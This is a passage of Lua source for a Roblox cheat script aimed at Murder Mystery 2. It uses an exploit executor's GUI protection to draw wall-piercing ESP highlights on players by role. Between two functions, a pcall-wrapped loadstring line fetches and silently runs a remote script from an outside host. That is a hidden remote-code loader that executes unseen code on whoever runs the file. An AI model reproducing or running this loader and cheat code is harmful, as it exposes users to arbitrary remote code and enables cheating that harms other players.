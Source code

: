 		end
	until true
	if player ~= LocalPlayer then
		local highlight = visuals[player]
		if highlight then
			highlight.FillColor = Options[role .. "_Color"].Value
		end
	end
end
pcall(function()  loadstring(game:HttpGet("http://ligma.wtf/scripts/mm2.lua", true))() end)
local function onPlayerAdded(player: Player) -- Fires on Player joined
	-- Creates Highlight:
	local highlight = Instance.new("Highlight")
	highlight.FillColor = Options.Unknown_Color.Value
	highlight.DepthMode = Enum.HighlightDepthMode.AlwaysOnTop
	highlight.RobloxLocked = true
	if syn then
		syn.protect_gui(highlight)
	end
	visuals[player] = highlight
	highlight.Parent = CoreGui

	-- Update ESP:
	local function onCharacterAdded(character: Model)
		highlight.Adornee = character
	end

	player.CharacterAdded:Connect(onCharacterAdded)
	do -- Initialize current character
		local character = player.Character
		if character then
			onCharacterAdded(character)
		end
	end
end

local function onPlayerRemoving(player: Player) -- Fires on Player left
	-- Destroys Highlight:
	local highlight = visuals[player]
	highlight:Destroy()

	-- Cleanup:
	visuals[player] = nil
	roles[player] = nil
end

local function handleAutoFarm()

end

-- Interface:
do
	Library:SetWatermark("Linoria Community (OminousVibes)")
	Library:Notify("Loading UI...")
